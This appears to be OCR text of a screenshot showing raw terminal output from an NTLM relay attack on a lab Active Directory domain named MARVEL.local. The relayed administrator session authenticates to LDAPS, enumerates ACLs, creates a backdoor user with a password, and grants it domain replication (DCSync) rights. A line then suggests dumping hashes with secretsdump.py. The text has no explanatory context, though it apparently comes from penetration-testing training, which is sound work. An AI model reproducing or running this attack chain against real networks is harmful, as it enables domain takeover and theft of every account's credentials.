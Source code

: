 ACE<br/>
AceType: {0}<br/>
AceFlags: {18}<br/>
AceSize: {36}<br/>
AceLen: {32}<br/>
<br/>
Ace:{<br/>
<br/>
  Mask:{<br/>
    Mask: {983551}<br/>
  }<br/>
<br/>
  Sid:{<br/>
    Revision: {1}<br/>
    SubAuthorityCount: {5}<br/>
<br/>
    IdentifierAuthority:{<br/>
      Value: {b'\x00\x00\x00\x00\x00\x05'}<br/>
    }<br/>
    SubLen: {20}<br/>
    SubAuthority: {b'\x15\x00\x00\x00&gt;\xbeUU\xaf\xee7\xf2$\x1e\x9a\xde\x07\x02\x00\x00'}<br/>
  }<br/>
}<br/>
TypeName: {'ACCESS_ALLOWED_ACE'}<br/>
<b>[*] User privileges found: Create user<br/>
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)<br/>
[*] User privileges found: Modifying domain ACL<br/>
[*] Attempting to create user in: CN=Users,DC=MARVEL,DC=local<br/>
</b><b>[*] Adding new user with username: fCbvpBvkqG and password: 6^K`@U3,)&quot;w.K5&quot; result: OK</b><br/>
[*] Querying domain security descriptor<br/>
[*] Success! User fCbvpBvkqG now has Replication-Get-Changes-All privileges on the domain<br/>
[*] Try using DCSync with secretsdump.py and this user :)<br/>
[*] Saved restore state to aclpwn-20220215-080056.restore<br/>
[-] New user already added. Refusing to add another<br/>
[-] Unable to escalate without a valid user, aborting.<br/>
[*] HTTPD: Received connection from ::ffff:192.168.247.135, attacking target ldaps://192.168.247.133<br/>
[*] HTTPD: Client requested path: www.bing.com:443<br/>
[*] HTTPD: Received connection from ::ffff:192.168.247.135, attacking target ldaps://192.168.247.133<br/>
[*] HTTPD: Client requested path: www.bing.com:443<br/>
[*] HTTPD: Received connection from ::ffff:192.168.247.135, attacking target ldaps://192.168.247.133<br/>
[*] HTTPD: Client requested path: www.bing.com:443<br/>
[-] Exception in HTTP request handler: 'NoneType' object has no attribute 'sendAuth'<br/>
[*] HTTPD: Received connection from ::ffff:192.168.247.135, attacking target ldaps://192.168.247.133<br/>
[*] HTTPD: Client requested path: login.live.com:443<br/>
[*] HTTPD: Received connection from ::ffff:192.168.247.135, attacking target ldaps://192.168.247.133<br/>
[*] HTTPD: Client requested path: login.live.com:443<br/>
[*] HTTPD: Client requested path: login.live.com:443<br/>
[*] Authenticating against ldaps://192.168.247.133 as MARVEL\Administrator SUCCEED<br/>
[*] Enumerating relayed user's privileges. This may take a while on large domains<br/>
<br/>
ACE<br/>
AceType: {0}<br/>
AceFlags: {0}<br/>
AceSize: {36}<br/>
AceLen: {32}<br/>
<br/>
Ace:{<br/>
<br/>